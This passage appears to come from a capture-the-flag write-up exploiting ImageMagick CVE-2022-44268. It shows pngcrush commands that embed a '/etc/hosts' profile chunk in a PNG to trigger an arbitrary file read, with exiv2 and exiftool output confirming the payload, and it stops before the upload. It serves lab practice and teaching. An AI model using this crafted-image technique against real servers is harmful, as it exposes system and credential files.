 In ImageMagick, a profile refers to a set of color management settings that
define how colors are represented and handled in an image. Color management is
important because different devices (such as cameras, monitors, and printers)
may interpret and reproduce colors differently. Profiles help ensure
consistent and accurate color representation across various devices.

### POC Exploit

#### Manual

There are many POC scripts out there, but I prefer to do it manually [This
Github page](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-
File-Read-PoC) has steps for doing so. I’ll start with a generic PNG, and use
`pngcrush` to add the profile string:

    
    
    oxdf@hacky$ pngcrush -text a "profile" "/etc/hosts" poc.png
      Recompressing IDAT chunks in poc.png to pngout.png
       Total length of data found in critical chunks            =     21089
       Best pngcrush method        =   6 (ws 15 fm 6 zl 9 zs 0) =     20070
    CPU time decode 0.004922, encode 0.052924, other 0.001132, total 0.059650 sec
    

This creates a new file, `pngout.png`, which has the metadata in the `tEXt`
section:

    
    
    oxdf@hacky$ exiv2 -pS pngout.png 
    STRUCTURE OF PNG FILE: pngout.png
     address | chunk |  length | data                           | checksum
           8 | IHDR  |      13 | .......z....                   | 0x727a55a2
          33 | gAMA  |       4 | ....                           | 0x0bfc6105
          49 | cHRM  |      32 | ..z&..............u0...`..:..  | 0x9cba513c
          93 | bKGD  |       6 | ......                         | 0xa0bda793
         111 | tIME  |       7 | .......                        | 0x9208ee1c
         130 | IDAT  |   20013 | x.....%.U.Z.N..n..&j...A3....a | 0x73423cfd
       20155 | tEXt  |      37 | date:create.2023-05-15T20:26:1 | 0x2850565c
       20204 | tEXt  |      37 | date:modify.2023-05-15T20:26:1 | 0x590deee0
       20253 | tEXt  |      18 | profile./etc/hosts             | 0xc560a843
       20283 | IEND  |       0 |                                | 0xae426082
    

`exiftool` will show it as well:

    
    
    oxdf@hacky$ exiftool pngout.png
    ExifTool Version Number         : 12.40
    File Name                       : pngout.png
    ...[snip]...
    Profile                         : /etc/hosts
    Image Size                      : 183x122
    Megapixels                      : 0.022
    

I’ll submit this to the site, and download the resulting file:
